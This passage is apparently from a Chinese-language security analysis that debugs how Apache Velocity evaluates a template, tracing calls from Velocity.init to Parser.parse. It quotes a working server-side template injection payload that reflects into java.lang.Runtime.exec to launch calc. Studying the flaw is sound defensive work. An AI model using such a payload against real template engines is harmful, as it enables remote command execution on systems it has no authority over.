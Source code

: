 ### 3.5 简单分析

根据测试程序，首先会进入 Velocity 类的 init 方法

```bash
public static void init() {
    RuntimeSingleton.init();
}
```

在该方法中，会调用 RuntimeSingleton 类的 init 方法，这个方法主要是对模板引擎的初始化，比如设置属性、初始化日志系统、资源管理器、指令等  
接下来回到主程序中，实例化 VelocityContext，并将三对键值对 put 进去，之后调用 Velocity 类的 evaluate 方法  
此时 templateString 的值为

```bash
Hello, #set($e="e")
$e.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec("cmd /C calc") | Full name: $name, phone: $phone, email: $email
```

```bash
public static boolean evaluate(Context context, Writer out, String logTag, String instring) throws ParseErrorException, MethodInvocationException, ResourceNotFoundException {
    return RuntimeSingleton.getRuntimeServices().evaluate(context, out, logTag, instring);
}
```

直接进入了 RuntimeInstance 的 evaluate 方法

```bash
public boolean evaluate(Context context, Writer out, String logTag, String instring) {
    return this.evaluate(context, out, logTag, (Reader)(new StringReader(instring)));
}
```

进入重载的 evaluate 方法  
[![](assets/1701606782-57fcde55f2fa4a96102d6ff0bf29f98f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231103172953-8b649cec-7a2b-1.png)  
这个方法会调用 RuntimeInstance 类的 parse 方法进行解析  
经过两重调用来到 org\\apache\\velocity\\runtime\\parser\\Parser.class 的 parse 方法
